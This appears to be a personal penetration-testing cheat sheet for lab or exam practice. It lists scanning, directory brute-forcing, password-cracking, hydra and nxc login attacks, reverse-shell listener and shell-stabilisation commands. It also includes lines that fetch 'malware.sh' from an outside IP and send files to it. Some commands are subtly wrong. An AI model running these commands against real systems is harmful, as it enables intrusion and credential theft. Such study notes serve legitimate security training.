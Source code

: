 ## Nmap

```
sudo nmap -sS -sV -O -p- --open -T4 -v target.com
```


Who's

```
whois megacorpone.com -h 192.168.50.251
```

Dns enumeration

```
dnsenum megacorpone.com
```

TCP/UDP scan

```
nc -nvv -w 1 -z 192.168.50.152 3388-3390
```


Feroxbuster

```
feroxbuster --smart --auto-tune -d 2 -u http://192.168.199.16 -C 403 -x php 

/usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt

/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```


To stabilized the shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 
CTRL + Z  >> isko prss krna hai 
stty -raw; fg
export TERM=xterm
```

For enumeration

```
sudo -l
```

Listener

```
nc -nvlp 4444 <<<listner>>>
```

To hide something in image

```
echo 'password hai amit' >> photo name.png
```

To read the message

```
strings photo name.png
```


Dirsearch

```
dirsearch -u http://example.com -w /path/to/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -e php,html,txt,json,js,xml,zip,backup,log -t 50 --recursive --random-agent --exclude-status=403,404 --plain-text-report=results.txt
```

File sharing

```
python3 -m http.server 80

http://localhost/ >> access
```

Best way 

```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root


wget http://184.174.34.252:8080/malware.sh
  
curl -k filename.txt http://184.174.34.252:8080/
```

To download the file by hosting python3 -m http.server(defolt port 8000)

```
wget http://184.174.34.252:8000/malware.sh
```

To crack hash (john tool)

```
zip2john protected.zip > zip_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt oracle.hash
```

hydra (to crack user/password)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.100 -t 4
```

hydra for url

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

for doing bruteforce like hydra

```
nxc ssh 192.168.193.153 -u user.txt -p pass.txt --continue-on-success
```
chmod

```
chmod a+x script.sh(full perm)
chmod 600 id_rsa  (Secure private key file)
chmod 700 my_folder (Allow read-write-execute only to owner)
```

ssh

```
ssh username@host_or_ip -p 1234
ssh -i /path/to/private_key.pem kali@192.168.1.10(Using a private key)
```

ftp

```
ftp host_or_ip
```

hashcat(passworfd cracker)

```
hashcat --help | grep -i "KeePass"


hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

If 445 is open run
```
enum4linux
```

to unzip tar file 
```
tar -xvf
```

Responder cracking hash
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

universal command 
```
whoami && hostname && ipconfig && type proof.txt
```

```
xfreerdp /u:<username> /p:<password> /v:<Machine1_IP>

evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```